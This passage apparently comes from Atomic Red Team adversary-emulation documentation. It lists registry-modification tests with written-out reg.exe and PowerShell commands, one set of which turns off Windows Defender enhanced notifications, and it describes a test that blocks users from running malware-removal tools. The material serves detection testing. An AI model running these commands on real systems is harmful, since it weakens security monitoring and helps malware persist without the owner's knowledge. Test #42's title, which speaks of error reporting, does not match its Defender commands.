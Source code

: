 ```powershell
New-Item -path "HKCU:\SOFTWARE\Microsoft\Terminal Server Client\Servers" -name "Redcanary" -ErrorAction Ignore
```




<br/>
<br/>

## Atomic Test #42 - Disable Windows Error Reporting Settings
Modify the registry of the currently logged in user using reg.exe via cmd console to disable windows error reporting settings. This Windows feature allow the use to report bug, errors, failure or problems 
encounter in specific application or process.
See how azorult malware abuses this technique- https://app.any.run/tasks/a6f2ffe2-e6e2-4396-ae2e-04ea0143f2d8/

**Supported Platforms:** Windows


**auto_generated_guid:** d2c9e41e-cd86-473d-980d-b6403562e3e1






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
reg add HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Reporting /v DisableEnhancedNotifications /t REG_DWORD /d 1 /f
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Reporting /v DisableEnhancedNotifications /t REG_DWORD /d 1 /f
```

#### Cleanup Commands:
```cmd
reg delete HKLM64\SOFTWARE\Policies\Microsoft\Windows Defender\Reporting /v DisableEnhancedNotifications /f >nul 2>&1
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows Defender\Reporting /v DisableEnhancedNotifications /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #43 - DisallowRun Execution Of Certain Applications
Modify the registry of the currently logged in user using reg.exe via cmd console to prevent user running specific computer programs that could aid them in manually removing malware or detecting it 
using security product.
